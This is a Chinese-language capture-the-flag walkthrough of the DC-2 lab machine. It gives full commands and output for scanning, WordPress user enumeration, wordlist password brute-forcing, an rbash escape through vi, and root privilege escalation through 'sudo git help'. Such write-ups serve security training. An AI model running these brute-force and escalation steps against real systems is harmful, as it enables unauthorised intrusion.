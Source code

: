 # DC-2

### 目标探测

使用arp扫描一下靶机目标

```
┌──(root㉿kali)-[~/Desktop/test]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f5:d6:36, IPv4: 192.168.5.134
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.5.1     00:50:56:c0:00:08       VMware, Inc.
192.168.5.2     00:50:56:f6:37:b9       VMware, Inc.
192.168.5.138   00:0c:29:9b:2a:1c       VMware, Inc.
192.168.5.254   00:50:56:fc:0f:b8       VMware, Inc.

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.936 seconds (132.23 hosts/sec). 5 responded
```

Nmap扫描一下目标开放端口

```
┌──(root㉿kali)-[~/Desktop/test]
└─# nmap -sS -sV -p- -T4 192.168.5.138
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-14 02:10 EST
Nmap scan report for dc-2 (192.168.5.138)
Host is up (0.00085s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
MAC Address: 00:0C:29:9B:2A:1C (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.20 seconds
```

可用看到开放了两个端口80 web 和7744 ssh，我们访问一下80，IP访问跳转到了域名 我们将它加入到/etc/hosts文件当中

```
┌──(root㉿kali)-[~/Desktop/test]
└─# cat /etc/hosts 
127.0.0.1       localhost
127.0.1.1       kali
192.168.5.138   dc-2

::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
```

可用看到这是一个wordpass网站吗，这个flag提供给我们的信息让我们用cewl生成密码用来登录一个用户

<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

我们先用nikto扫描一下看看有没有扫描有用的信息

```
┌──(root㉿kali)-[~/Desktop/test]
└─# nikto -host http://dc-2/
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.5.138
+ Target Hostname:    dc-2
+ Target Port:        80
+ Start Time:         2023-12-14 02:23:26 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: Drupal Link header found with value: ARRAY(0x562441ddf150). See: https://www.drupal.org/
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ /license.txt: License file found may identify site software.
+ /: A Wordpress installation was found.
+ /wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /wp-login.php: Wordpress login found.
+ 7850 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2023-12-14 02:24:06 (GMT-5) (40 seconds)
```

这里有一个wordpass的登录页面，接下来我们用wpscan枚举一下它的用户名

```
┌──(root㉿kali)-[~/Desktop/test]
└─# wpscan --url http://dc-2/ --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

这里枚举出来了三个用户名，接下来我们用cewl来生成密码，记得将用户名也保存到单独的txt文件当中

```
┌──(root㉿kali)-[~/Desktop/test]
└─# cewl -w dc-2.txt -d 5 -m 4 http://dc-2/       
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

开始用wpscan 爆破密码

```
┌──(root㉿kali)-[~/Desktop/test]
└─# wpscan --url http://dc-2/ -U dc.txt -P dc-2.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

得到了两个账号，我们先用jerry这个用户登录一下wordpass

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

这里告诉我们，如果无法在这里拿到shell，我们得尝试一下其它方法去，我们尝试ssh登录一下

```
┌──(root㉿kali)-[~/Desktop/test]
└─# ssh jerry@192.168.5.138 -p7744      
jerry@192.168.5.138's password: 
Permission denied, please try again.

┌──(root㉿kali)-[~/Desktop/test]
└─# ssh tom@192.168.5.138 -p7744
tom@192.168.5.138's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Dec 14 09:58:41 2023 from 192.168.5.134
tom@DC-2:~$
```

tom这个用户可用成功登录



### 权限提升

\
`rbash` 是 Bash shell 的一种限制模式。在这个模式下，用户受到一些额外的限制，使其只能执行有限的操作，从而提高系统的安全性。

```
tom@DC-2:~$ id
-rbash: id: command not found
```

在网上查找了一下这个绕过的方法

在命令行中，输入 vi，在末行模式中依次输入以下两条内容

```
:set shell=/bin/bash

:shell
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

再配置一下环境变量就可以绕过shell了

```
tom@DC-2:~$ export PATH=/usr/sbin:/usr/bin:/sbin:/bin
tom@DC-2:~$ id
uid=1001(tom) gid=1001(tom) groups=1001(tom)
```

我们查看一下有没有以root用户正在运行的命令，tom这个用户似乎不能执行这个命令，我们su切换到jerry这个用户

```
tom@DC-2:~$ sudo -l
[sudo] password for tom: 
Sorry, user tom may not run sudo on DC-2.
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
jerry@DC-2:/home/tom$
```

可以看到git这个命令是以root权限运行的我们，通过搜索该提权方式可以利用以下命令提权

```
jerry@DC-2:/home/tom$ sudo git help status

!/bin/bash
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

这样就获得了一个root权限的shell

```
jerry@DC-2:/home/tom$ sudo git help status
root@DC-2:/home/tom# id
uid=0(root) gid=0(root) groups=0(root)
```
